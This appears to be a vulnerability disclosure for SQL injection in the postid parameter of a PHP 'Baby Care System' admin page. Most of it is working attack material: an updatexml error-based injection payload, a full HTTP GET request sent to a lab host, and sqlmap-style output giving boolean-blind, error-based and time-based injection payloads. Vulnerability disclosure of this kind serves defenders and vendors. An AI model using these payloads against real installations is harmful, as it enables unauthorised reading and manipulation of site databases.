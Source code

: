 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/posts.php&action=delete

![image](https://user-images.githubusercontent.com/54017627/161250007-60e2b74e-534a-414c-8629-9fb37a03cc62.png)

Vulnerability location: /BabyCare/admin.php?id=posts&action=delete&postid=7&image= //postid is Injection point

[+]Payload:  /BabyCare/admin.php?id=posts&action=delete&postid=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+&image= //postid is Injection point

```sql
GET /BabyCare/admin.php?id=posts&action=delete&postid=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+&image= HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v8g2iaa0tsnt5b01btt83eb7qo
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161250074-9677c17a-1c5b-4cec-845d-f8c5750791ec.png)


```sql
---
Parameter: postid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=posts&action=delete&postid=7' RLIKE (SELECT (CASE WHEN (3209=3209) THEN 7 ELSE 0x28 END))-- pges&image=

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=posts&action=delete&postid=7' AND EXTRACTVALUE(7032,CONCAT(0x5c,0x7170767071,(SELECT (ELT(7032=7032,1))),0x7171787171))-- OvNm&image=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=posts&action=delete&postid=7' AND (SELECT 3278 FROM (SELECT(SLEEP(5)))KhCO)-- EGcS&image=
--
```

![image](https://user-images.githubusercontent.com/54017627/161250316-50a3abfe-6e6e-4c25-9306-8087b9cee48a.png)
